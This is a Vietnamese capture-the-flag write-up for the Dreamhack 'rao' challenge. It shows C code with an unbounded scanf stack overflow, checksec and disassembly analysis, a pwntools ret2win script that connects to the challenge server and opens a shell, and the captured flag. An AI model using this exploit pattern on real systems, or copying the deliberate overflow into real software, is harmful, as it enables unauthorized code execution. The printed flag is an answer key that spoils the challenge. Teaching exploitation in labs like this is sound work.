


**1. Tìm lỗi**

Ta có file source như sau:

```
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

Chương trình cho nhập vào biến `buf` vào kết thúc ngay sau đó. Ta thấy ở đây không giới hạn ký tự nhập nên có lỗi `bof`

Ngoài ra còn có hàm `get_shell` có thể giúp mình tạo shell.

**2. Ý tưởng**

Dùng lệnh `checksec` kiểm tra:

```
	Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Ta có Stack đang no canary found nên chỉ cần nhập nhập tràn đến `ret` rồi chèn địa chỉ hàm `get_shell` vào là xong.

**3. Khai thác**

```
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
```

Ta thấy biến `buf` cách rbp 0x30 byte nên ghi 0x30 + 0x8 byte rác sẽ đến được ret.

```
payload = b'a'*(0x30 + 0x8)
payload += p64(exe.sym['get_shell'])
r.sendlineafter(b'Input: ', payload)
```

Đặt breakpoint xem đã về hàm `get_shell` chưa:



Chương trình đã trả về hàm mình mong muốn. ta có script như sau:

```
from pwn import *

exe = ELF('rao', checksec = False)
#r = process(exe.path)
r = remote(b'host3.dreamhack.games', 23406)

#input()
payload = b'a'*(0x30 + 0x8)
payload += p64(exe.sym['get_shell'])
r.sendlineafter(b'Input: ', payload)
r.interactive()
```

**4. Lấy flag**



`Flag: DH{5f47cd0e441bdc6ce8bf6b8a3a0608dc}`